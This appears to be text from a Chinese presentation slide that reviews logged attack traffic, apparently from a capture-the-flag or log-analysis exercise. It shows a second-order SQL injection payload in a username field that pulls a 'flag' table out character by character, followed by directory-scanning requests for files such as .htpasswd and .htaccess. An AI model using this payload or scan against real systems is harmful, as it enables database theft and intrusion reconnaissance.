

二次sql注入
Apr 22, 17:31:42   POST
  ['username" = "0\'+ascii(substr((select * from flag) from 1 for 1))+\'0;“’, …]
…
Apr 22, 17:34:14   POST
  ['username" = "0\'+ascii(substr((select * from flag) from 41 for 1))+\'0;“’,…]

目录扫描爆破
Apr 22, 16:16:11
GET  /!.htpasswd
Apr 22, 16:44:16
GET  /~system
…
Apr 22, 16:16:11
GET  /php.htaccess
Apr 22, 16:44:16
GET  /~user